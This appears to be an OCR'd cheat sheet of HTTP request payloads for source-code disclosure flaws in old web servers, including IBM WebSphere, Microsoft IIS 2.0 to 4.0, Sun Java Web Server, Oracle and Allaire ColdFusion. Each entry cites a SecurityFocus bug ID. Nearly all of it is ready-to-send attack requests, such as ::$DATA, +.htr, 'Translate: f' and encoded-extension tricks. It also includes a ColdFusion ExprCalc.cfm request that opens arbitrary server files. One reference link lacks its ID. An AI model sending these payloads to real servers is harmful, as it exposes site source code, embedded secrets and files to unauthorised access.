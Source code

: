 __IBM WebSphere Case Sensitive File Extension__

- http://www.securityfocus.com/bid/1328

1. GET /file.JSP HTTP/1.0
1. GET /file.jsP HTTP/1.0
1. GET /file.Jsp HTTP/1.0

__IBM WebSphere /servlet/file/__

1. GET /servlet/file/file.jsp HTTP/1.0
 - http://www.securityfocus.com/bid/1500

__Microsoft IIS 4.0 + FAT Filesystem__

1. GET /file.%E2%73%70 HTTP/1.0
 - http://www.securityfocus.com/bid/2909

__Microsoft IIS 4.0 Alternative Data Stream__

1. GET /file::$DATA HTTP/1.0
  - http://www.securityfocus.com/bid/149

__Microsoft IIS +.htr__

1. GET /file.asp+.htr HTTP/1.0
  - http://www.securityfocus.com/bid/1488

__Microsoft IIS Translate: f__

1. GET /file.asp HTTP/1.0 Translate: f
 - http://www.securityfocus.com/bid/1578

__Microsoft IIS 3.0 %2e__

1. GET /file%2easp HTTP/1.0
 - http://www.securityfocus.com/bid/1814

__Microsoft IIS 2.0/3.0 Append "."__

- http://www.securityfocus.com/bid/2074

1. GET /file.asp. HTTP/1.0
1. GET /file.pl HTTP/1.0
1. GET /file.asp%2e HTTP/1.0
1. GET /file.pl%2e HTTP/1.0

__Oracle /_pages/__

1. GET /_pages/ HTTP/1.0
 - http://www.securityfocus.com/bid/

__Sun Java Web Server .jhtml__

- http://www.securityfocus.com/bid/1891

1. GET /file.jhtml. HTTP/1.0
1. GET /file.jhtml\HTTP/1.0

__Allaire ColdFusion Server exprcalc.cfm__

1. GET /cfdocs/expeval/ExprCalc.cfm?OpenFile Path=c:\file HTTP/1.0
 - http://www.securityfocus.com/bid/115
